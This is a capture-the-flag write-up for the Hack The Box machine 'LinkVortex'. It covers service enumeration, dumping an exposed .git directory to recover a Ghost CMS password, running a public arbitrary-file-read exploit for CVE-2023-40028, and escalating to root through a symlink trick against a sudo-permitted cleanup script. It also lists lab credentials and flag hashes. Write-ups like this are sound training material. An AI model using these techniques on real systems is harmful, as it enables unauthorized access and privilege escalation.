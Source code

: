 
[[HTB]] : [[Machines]]

**Date:** 09/01/25  
**Target IP:** 10.10.11.47

---
### **Initial Scanning**

##### **Nmap**:

- **22/tcp** open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
- **80/tcp** open  http    Apache httpd
	|\_http-title: Did not follow redirect to http://linkvortex.htb

Added linkvortex.htb to /etc/hosts file

---
### **Exploration and Enumeration**

**Port 80 (HTTP):**
- Navigated to website hosted at port 80.
- Blog page type thing.
- Blog author is admin.
- Sign Up button doesn't work.
- Powered by Ghost???

**Ghost** is an open source ("Open-source software") content management system platform written in JavaScript and distributed under the [MIT License](https://en.wikipedia.org/wiki/MIT_License "MIT License"), designed to simplify the process of online publishing for individual bloggers as well as online publications.

Found the default Ghost Admin Login Page at http://linkvortex.htb/ghost/#/signin.

Found multiple exploits or Ghost on GitHub and other CVE databases but they seem to require credentials which I do not possess which means another approach should be attempted.

##### **Subdomain and Directory Enumeration**

With great difficulty (the connection to this server is infuriating), a subdomain at **dev.linkvortex.htb** was discovered.

```bash
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://FUZZ.linkvortex.htb/ -c -v -fc 301
```

Dirsearch was then used to reveal that dev.linkvortex.htb had some interesting directories.

```bash
❯ dirsearch -u http://dev.linkvortex.htb -t 50

[16:03:48] 301 -  239B  - /.git  ->  http://dev.linkvortex.htb/.git/
```

Found the following at http://dev.linkvortex.htb/.git/logs/HEAD

```
0000000000000000000000000000000000000000 299cdb4387763f850887275a716153e84793077d root <dev@linkvortex.htb> 1730322603 +0000	clone: from https://github.com/TryGhost/Ghost.git
```

---
### **Exploitation**

In order to properly analyse the git repo, it is necessary to fetch the whole thing. This is accomplished with:

```
❯ wget -m -I .git http://dev.linkvortex.htb/.git
```

We can then `cd` into the downloaded folder and run:

```bash
❯ git status
```

Obtaining the following:

```
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   Dockerfile.ghost
	modified:   ghost/core/test/regression/api/admin/authentication.test.js

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
	deleted:    .editorconfig
	deleted:    .gitattributes
	deleted:    .github/AUTO_ASSIGN
	deleted:    .github/CONTRIBUTING.md
```

We can the obtain credentials in the listed modified file using:

```bash
❯ git show :ghost/core/test/regression/api/admin/authentication.test.js
```

`const password = 'OctopiFociPilfer45';` is one of the credentials obtained and utilizing a user enumeration vulnerability on the the Ghost login page we are able to deduce that `admin@linkvortex.htb` is an existing user email. Combining these we can gain access to the ghost admin page.

Now having obtained a valid username and password, I'm able to use the Ghost CMS exploits i previously found on GitHub. One specifically stands out: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028 as it allows one to arbitrarily read any file on the system. It can hence be used to read the other file that was listed before when I ran `git status`.

On reading the file using the exploit:

```
❯ bash exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45 -h linkvortex.htb
```

We obtain the following credentials:

```
"user": "bob@linkvortex.htb",
"pass": "fibber-talented-worth"
```

I can now SSH into this user and obtain the **user flag** :

**c623ddf811a8211e6d0c7be7832a66a5**

---
### **Post-Exploitation**

Running linpeas did not indicate anything extremely interesting. However `sudo -l` did.

```
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

Reading the `clean_symlink.sh` file provided the following :

```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

Effectively, this script checks if a .png file is a symbolic link and if it is trying to link to a critical, sensitive file. If it finds it trying to read a critical file it removes the link and if not it checks its content (optionally printing said content) and moves it to a quarantine folder.

---
### **Escalation**

This script can be exploited to display the contents of `/root/root.txt` by first creating a `test.txt` file with a symbolic link to it and then creating a further `test.png` file with a symbolic link to the `test.txt` file and then running the script with `CHECK_CONTENT=true` to display the contents.

```bash
bob@linkvortex:~$ ln -s /root/root.txt test.txt

bob@linkvortex:~$ ls
test.txt  user.txt

bob@linkvortex:~$ ln -s /home/bob/test.txt test.png

bob@linkvortex:~$ ls
test.png  test.txt  user.txt

bob@linkvortex:~$ sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh test.png

Link found [ test.png ] , moving it to quarantine
Content:
bf048412c4ade4b196805ed2d70de3f5
```

We thus obtain the **root flag** :

**bf048412c4ade4b196805ed2d70de3f5**

---
### **Summary**

- Ghost CMS ( **Outdated Version** ) website on Port 80
- Discovered Subdomain: **dev.linkvortex.htb** with **.git folder accessible**
- Ghost CMS Admin Credentials: `admin@linkvortex.htb : OctopiFociPilfer45`
- [GitHub Exploit](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028) for **arbitrary file read**
- Bob User Credentials: `bob@linkvortex.htb : fibber-talented-worth`
- User Flag (`home/bob/user.txt`) : **c623ddf811a8211e6d0c7be7832a66a5**
- **Insecure script** allowing Bob to arbitrarily read sensitive files
- Root Flag (`/root/root.txt`) : **bf048412c4ade4b196805ed2d70de3f5**





